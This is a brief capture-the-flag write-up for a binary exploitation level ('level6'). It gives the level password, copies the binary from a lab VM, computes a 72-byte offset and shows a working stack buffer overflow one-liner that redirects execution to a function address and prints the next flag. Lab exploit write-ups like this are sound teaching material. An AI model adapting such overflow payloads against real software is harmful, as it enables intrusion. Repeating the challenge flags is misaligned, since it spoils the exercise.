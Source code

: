 # Level 6
*pass: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*

```
$ scp -P 4242 level6@192.168.56.108:level6 binary/
```

0x40 = 64

`n()` address : 0x08048454

## Buffer overflow

offset = 4 * 2 = 8
64 + 8 = 72

```
$ ./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
